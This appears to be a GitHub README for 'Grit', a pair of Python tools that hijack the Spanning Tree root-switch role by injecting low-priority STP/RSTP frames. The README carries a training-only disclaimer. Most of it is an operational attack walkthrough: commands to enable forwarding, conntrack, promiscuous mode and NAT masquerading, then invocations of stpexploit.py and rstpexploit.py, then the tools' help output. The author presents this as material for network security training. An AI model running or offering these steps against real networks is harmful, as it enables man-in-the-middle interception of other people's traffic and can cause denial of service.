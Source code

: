 # Grit
STP &amp; RSTP Root Hijacking Exploits

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

## 1. Mechanics of the attack.

The basic principle of the tools is to generate an STP/RSTP frame with the lowest priority value. Which in turn allows you to intercept the role of the root switch.
After that, an opportunity will open for a MITM attack, you will partially intercept traffic, not all of it. Keep that in mind.
But don't forget that the BPDU GUARD system can stop you.

## 2. Limitations

Depending on the power of your hardware. some host traffic will go through you, you have to withstand this load, otherwise DoS will occur.

## 3. Attack
First you need to install the dependencies.

```
sudo pip3 install -r requirements.txt
```

### 3.1 Enable Forwarding

```
sudo sysctl -w net.ipv4.ip_forward
```
### 3.2 Enable Conntrack (nf_conntrack_helper)
```
sudo modprobe nf_conntrack
sudo echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
### 3.3 Promisc mode on interface
```
sudo ifconfig ethX promisc
```
### 3.4 NAT
```
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUEADE
```

### 3.5 Start of injection.
#### 3.5.1 STP
```
sudo python3 stpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX 
```
#### 3.5.2 RSTP
```
sudo python3 rstpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX
```
After executing the injection, you will intercept the role of the root switch. you can track generated STP ads in Wireshark or tcpdump :)



## 4. Help

```
python3 stpexploit.py  --help     

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

STP Root Hijacking Exploit
For the classic version of Spanning Tree Protocol

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: stpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Choose the interface to attack
  --mac EVILMAC         Specify your MAC
```

```
python3 rstpexploit.py --help                                                                                                                          2 ↵

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

RSTP Root Hijacking Exploit
For Rapid Spanning Tree Protocol version

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: rstpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
  --mac EVILMAC
```
